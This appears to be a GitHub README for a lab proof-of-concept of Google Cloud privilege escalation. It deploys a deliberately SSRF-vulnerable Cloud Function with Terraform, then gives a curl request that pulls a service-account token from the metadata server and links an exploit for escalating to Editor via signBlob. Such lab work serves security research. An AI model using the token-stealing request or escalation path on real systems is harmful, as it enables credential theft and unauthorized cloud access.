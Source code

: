 # PrivEsc PoC for iam.serviceAccounts.signBlob method for signing URLs

## Setup
1. Install [Terraform](https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli) and [gcloud CLI](https://cloud.google.com/sdk/docs/install).
2. Create [a new project](https://cloud.google.com/resource-manager/docs/creating-managing-projects#creating_a_project) in Google Cloud environment and copy its ID.
3. Login into `gcloud` with your main GCP user.
```bash
gcloud auth application-default login
```
4. Setup a vulnerable to SSRF Cloud Function with help of Terrafrom scripts. 
```bash
git clone https://github.com/Horlad/signBlob_PrivEsc_PoC.git
cd signBlob_PrivEsc_PoC/terraform
terrafrom init -upgrade
terrafrom apply --var gcp_project_id=YOUR_GCP_PROJECT_ID
```

## Exploitation
1. In Terraform output you can locate a URL to the vulnerable Cloud Function. Exploit SSRF to obtain a temporary token of an attached service account which use `iam.serviceAccounts.signBlob` permission to sign URLs.
```
curl https://YOUR.CLOUD.FUNCTION.URl?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/token&auth=Metadata-Flavor:%20Google
```
2. The  Terraform output you can also find `App Engine` and `Compute Engine ` default service accounts which were created automatically during the Cloud Function creation without explicit creation. You can use them to escalate to `Editor` role via [the Rhinosecurity exploit](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py).